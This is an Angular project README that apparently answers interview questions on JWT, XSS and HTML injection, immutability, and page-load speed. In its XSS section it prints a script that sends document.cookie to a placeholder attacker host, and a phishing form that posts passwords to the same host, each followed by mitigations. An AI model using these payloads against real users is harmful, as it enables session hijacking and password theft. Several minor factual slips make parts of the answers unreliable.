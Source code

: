 This project was generated with [Angular CLI](https://github.com/angular/angular-cli) version 17.3.6.

## Development server

Run `ng serve` for a dev server. Navigate to `http://localhost:4200/`. The application will automatically reload if you change any of the source files.

# Answers to the questions

## Question 1: Why is JWT is (or isn't) safe to use this? 

JWT can be safe or unsafe depends on the way we use it. We should not send sensitive information in JWT unless it's encrypted.

JWT is a way of securely transmitting data between 2 parties as JSON object, because it's signed and we can make sure that the senders are who they say they are. It's stateless and self contained. Most common scenario for JWT is to authorize users and allow access routes, services etc. Server can identify who the user is just by decoding the JWT token, which prevents the overhead of reading the user information from database each time a request comes from the client.

Why it is safe?
The only security we get with JWT is the ability to verify whether the token is tampered or not and modified any data in it. That's the only safety we get. If the token is tampered the signature verification fails and server can refuse the request in that case. So we can confirm the senders are the one who they say they are.

It's always safe to keep the JWT in cookie, because server can use HttpsOnly to prevent JavaScript accessing this particular cookie, which prevent XXS attacks. But on the downside the client cannot read the JWT token which sometimes will be needed in the client.

We can set an expiry to the JWT, which server can check and reject the request. Then client has to reauthenticate probably. But sometimes the server can automatically re-issue a new token by refreshing it.

The payload in the JWT token is exposed to other parties, even though it's not possible to change it. This means we must not add sensitive information to the token. We must only keep non-sensitive information such as user claims, user roles, user email, name and etc. Because any man-in-the middle who gets to intercept the data packets going through the internet can read the contents of the JWT easily.

## Question 2: Messages sent from one user to another, can contain HTML, write two attack vectors and mitigation.

### Attack vector 1: Cross Site Scripting (XSS)
This is when an attacker trying to execute a script in victim’s browser. And steal sensitive information stored in the browser like user session token and can lead to session hijacking. XSS attacks can take place anywhere a web app outputs/renders a user input in the web app without validating or encoding it.

Here is a simple example, assume that the bad player send a message that contains something like below:

```html
Hellow..
<script>
  document.location = "http://attackers-website.com/steal.php?cookie=" + document.cookie;
</script>
```

When the victim receives this message and the application renders it in the victim's page, the script will be immediately executed and redirect the victim to the specified website with the cookie in the query parameter. And the attacker can use this cookie to hijack the victim's session.

### Attack vector 1 mitigation:
We can do multiple things to mitigate the risk of session hijacking. These are just few steps to secure, but always we have to follow security practices and audits.

#### Step 1
If you want to render a user's message in another user's browser, use the safe api in JS, which is element.textContent than element.innerHTML. This way the browser does not parse it as HTML.

#### Step 2
Make sure to store the identity/session related token in HttpOnly cookies. These type of cookies cannot be accesses by the JavaScript and it will be sent with the requests only to the origin domain and nowhere else.

#### Step 3
Content Security Policy (CSP)
This is also an added layer of security to prevent XSS. These are special headers are returned from the server that kind of whitelists the domains that the browser trusts when running the application. The browser should be compatible with CSP which is the case in almost every browser now. 
Now the browser will only execute scripts from those allowed domains, all other scripts including inline scripts like in the above mentioned example will be blocked, and event-handling HTML attributes (onclick, onerror) will also be blocked by the browser.

Alternatively, the <meta> element can also be used in the root html file to configure CSP, for example:
```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; img-src https://*; child-src 'none';" />
```

#### Step 4
Implement proper input sanitization, we must sanitize all user submitted HTML content and remove or disable any executable scripts. This can be done by removing elements like <script>, <img>, and all known event handlers such as "onerror", "onload", "onclick", or escaping them so they are displayed as plain text when rendered.
As for the above example, the sanitisation might include converting the above element to HTML character entities like below:

```html
  Hello..
  &lt;script&gt;
    document.location = &quot;http://attackers-website.com/steal.php?cookie=&quot; + document.cookie;
  &lt;/script&gt;
```

### Attack vector 2: Html Injection
This is similar to XSS, but malicious html elements are sent in the message instead of scripts, that can alter the page to create forms to phish passwords or any other sensitive information of the user, or include malicious links, check the below example:

```html
<p>Please update your password right now to prevent getting backed:</p>
<form action="http://attackers-website.com" method="POST">
    Current Password: <input type="password" name="password"/>
    New Password: <input type="password" name="password"/>
    <input type="submit" value="Update"/>
</form>
```

This prompts user to enter the current password, and when clicked Update button, the password it will be sent to attacker's website.

### Attack vector 2 mitigation:

#### Step 1: Use the safe api
Use the safe api which is element.textContent than element.innerHTML for showing the user input in the browser.
Implement input validations:
Validate if the user input is in the expected shape and meets certain criteria.

#### Step 2: Sanitize user input: 
Done by removing or replacing characters that have special meaning in HTML

#### Step 3: Implement output encoding: 
In addition to above, we can encode user input by converting the special characters to HTML char entities.

## Question 3: Explain the difference between mutable and immutable objects. Examples, pros and cons, how to achieve immutability.

### Difference between immutable and mutable objects.
Mutable objects are those state or value can be changed after created. 
Immutable objects cannot be changed once they are created. Only new objects can be created with new memory reference.

### Examples of immutable objects in JS
strings, numbers, booleans immutable in JavaScript

### Pros and cons
Pros: 
- Immutable objects are predictable as their state never change. Avoids unintended side effects when it flows through the app and shared among many components. 
- Concurrent safe: Safe to use in a concurrent environment as they don’t need locks and no fear of race conditions. Easy for atomic operations.
- Undo/Redo: Easy to maintain a history of states with immutable objects, an example if React dev tool's time travel feature, that we can see all changes to an object as history.
- Efficient change detection in UI frameworks: Immutable objects are crucial in front end applications where the DOM is reconciliated, it's easy to decide on re-rendering if it's a new reference, otherwise we have to deep compare objects. 

Cons:
- Memory overhead: Can lead to increased memory because every change require creating new objects.
- Garbage collector works heavy: Frequent creation of new objects increases pressure on the garbage collector, which can lead to performance issues.
- Performance: May cause performance overhead due to the need for creating new objects instead of modifying existing ones.
- Code complexity and readability

### How to implement immutability
- We can use Object.freeze method to create a mutable object natively in JS. Objects created by this prevents adding new properties, existing properties from being removed. However, it only works shallowly.

- Use immutable.js to create many types of immutable data structures. 

- In JS we have operations that do not modify the original data but instead return new data. Ex: map(), filter(), and reduce() are immutable operations.

## Question 4: If you would have to speed up the loading of a web-application, how would you do that?

### Optimize and lazy load modules
Splitting the web application into smaller modules can drastically reduce the initial load time. When modules are lazy loaded, it only downloads the code necessary for the initial view, loading other features on demand.

### Optimize assets by compressing them
Heavy high resolution images, scripts and css styles can really slowdown the application. Compress them and minify them. Use WebP images which are smaller in size but high quality.

### SSR - Server side rendering
This will load the web app very faster by quickly displaying a fully rendered page to the user, which is also effective for SEO and the performance of the first DOM paint.

### Lazy load images and Iframes
Render the view first and then load expensive images.

### Prioritize visible content and limit https request on landing page
Only fetch absolutely required data to show the visible content. Then we can lazy load any additional data. In this way the user get to see the page soon.

### Implement caching and CDN
Consider caching the content in the browser that are needed for the landing page if they are not rapidly changing. Use CDN can drastically improve performance, it will cache cache static assets in multiple locations and deliver the content to the user from the closest location. 

## Question 4: Choices between own hardware and company supplied OS vs Standard hardware with own choice of software.

I like to choose my own hardware with own software :D But anyway I believe in a company like Zivver, which specializes in email encryption, security is likely a top priority. Therefore I guess the employees are given machines with special OS, and that maybe crucial to ensure all security protocols and stands are applied. 